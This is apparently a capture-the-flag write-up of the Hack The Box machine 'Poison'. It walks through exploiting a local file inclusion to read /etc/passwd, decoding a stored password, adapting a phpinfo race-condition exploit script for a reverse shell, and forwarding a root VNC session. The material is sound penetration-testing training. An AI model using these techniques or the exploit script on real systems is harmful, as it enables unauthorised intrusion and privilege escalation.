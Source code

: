 ```yaml
---
title:     "Hack The Box - Poison"
tags: [freebsd,medium,vnc,lfi,race_condition]
categories: HackTheBox OSCP-Like
---
```


![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled.png)

Poison is an Medium box, getting initial is by finding the LFI and doing race condition or we can get the ssh password of the user directly by decoding the base64 and root is port forwarding VNC to our machine and login it as root.

Link: [https://www.hackthebox.eu/home/machines/profile/132](https://www.hackthebox.eu/home/machines/profile/132)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  ssl/http Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: FreeBSD 11.0-RELEASE - 12.0-CURRENT (97%), FreeBSD 11.0-STABLE (95%), FreeBSD 11.0-CURRENT (94%), FreeBSD 11.0-RELEASE (94%), FreeBSD 9.1-STABLE (92%), FreeBSD 7.0-RELEASE (91%), FreeBSD 12.0-CURRENT (90%), Sony Playstation 4 or FreeBSD 10.2-RELEASE (90%), FreeBSD 7.0-RELEASE-p2 - 7.1-PRERELEASE (89%), FreeNAS 9.10 (FreeBSD 10.3-STABLE) (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   203.44 ms 10.10.14.1
2   203.51 ms 10.10.10.84
```

## HTTP Enumeration

This webpage contains some php files, the `Scriptname` will helps us to diplay them.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%201.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%201.png)

Here I tried to view `phpinfo` and it actually worked and also note that parameter helps to locate the files.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%202.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%202.png)

Likewise I started checking all the files. Here we can see one more file called `pwdbackup.txt`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%203.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%203.png)

## Getting User Shell

### Method 1

Checking that file reveals that it contains some base64 encoded stuff and its 13times encoded.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%204.png)

So I just decoded that multiple times using CyberChef and I got a password thing.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%205.png)

We know the `backup.php` uses a parameter called `file` so I tried for any LFI possible and I got `/etc/passwd` Here can see another user called charix.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%206.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%206.png)

Tried login with ssh with the creds we got `charix : Charix!2#4%6&8(0`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%207.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%207.png)

### Method 2

We know that we can view PHP Info and there is also LFI and  that uses race condition and can turn an LFI vulnerability to a remote code execution (RCE) vulnerability. There is a python script for this.

> [https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py](https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py)

And I changed some few things.

- Give the exact location of phpinfo.php
- Change the GET request to /browse.php?file= because this is where we found LFI

```py
REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /browse.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
```

- Added my IP address and the port which I need to Listen

Now if I run the script

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%208.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%208.png)

I got the shell as `www`

## Privilege Escalation

When checking the home directory, I found `secret.zip`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%209.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%209.png)

Downloaded to my machine and extracted that, it asked for password and I used the same Charix ssh password and it extracted.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2010.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2010.png)

But the file looks different.

When checking the running process, I found that VNC is running as root.

```bash
charix@Poison:~ % ps aux
.
.
.
root    529   0.0  0.9  23620  9064 v0- I    05:59     0:00.22 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800
```

I checked whether the port is open and port 5901 is the port usually VNC runs.

```bash
charix@Poison:~/.vnc % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.64487      10.10.14.20.3333       ESTABLISHED
tcp4       0      0 10.10.10.84.80         10.10.14.20.41928      CLOSE_WAIT
tcp4       0     44 10.10.10.84.22         10.10.14.20.36254      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*
```

So I did a local port forwarding of the port 5901 to my machine.

```bash
root@kali:~/CTF/HTB/Boxes/Poison# ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

Now We can try connecting to it by using vncviewer and it asks for password, So I guessed that the `secret` file we got from the zip can be password.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2011.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2011.png)

And It worked I logged in as root.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2012.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-poison/Untitled%2012.png)

We own the box!!

We can decrypt the VNC password using this [tool](https://github.com/trinitronx/vncpasswd.py).

```bash
root@kali:~/CTF/HTB/Boxes/Poison/vncpasswd.py# python vncpasswd.py -d -f secret
Decrypted Bin Pass= 'VNCP@$$!'
Decrypted Hex Pass= '564e435040242421'
```